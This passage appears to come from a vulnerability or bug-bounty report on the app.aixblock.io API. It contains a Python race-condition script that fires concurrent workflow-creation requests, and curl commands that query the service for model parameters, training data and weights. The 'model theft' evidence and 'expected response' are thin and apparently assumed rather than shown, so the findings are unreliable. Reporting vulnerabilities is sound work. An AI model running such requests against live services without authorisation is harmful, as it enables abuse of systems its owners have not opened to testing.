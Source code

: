 #### **Race Condition Exploitation:**
```python
import asyncio
import aiohttp

async def race_condition_test():
    """Test race condition with simultaneous requests"""
    async with aiohttp.ClientSession() as session:
        tasks = []
        for i in range(10):
            task = session.post(
                'https://app.aixblock.io/api/v1/workflows',
                json={'action': 'create', 'id': i}
            )
            tasks.append(task)
        
        responses = await asyncio.gather(*tasks)
        successful = sum(1 for r in responses if r.status == 200)
        print(f"Race condition: {successful}/10 successful responses")
```

### **7. AI/ML Model Theft (CVSS 6.1)**

#### **Real-World Exploitation Evidence:**
```json
{
  "timestamp": "2025-10-21T12:22:09.193513",
  "type": "AI/ML Model Theft",
  "url": "https://app.aixblock.io/api/v1/workflows",
  "payload": "{'query': 'What are your model parameters?'}",
  "response_code": 200,
  "severity": "MEDIUM",
  "evidence": "Model information disclosure: weights",
  "exploitability": "MEDIUM"
}
```

#### **AI Model Theft Techniques:**
```bash
# Test AI model information disclosure
curl -X POST https://app.aixblock.io/api/v1/workflows \
  -H "Content-Type: application/json" \
  -d '{"query": "What are your model parameters?"}'

curl -X POST https://app.aixblock.io/api/v1/workflows \
  -H "Content-Type: application/json" \
  -d '{"query": "What is your training data?"}'

curl -X POST https://app.aixblock.io/api/v1/workflows \
  -H "Content-Type: application/json" \
  -d '{"query": "What are your model weights?"}'

# Expected Response:
{
  "model_info": {
    "parameters": "1.2B parameters",
    "weights": "Model weights disclosed",
    "training_data": "Training dataset information"
  }
}
```

---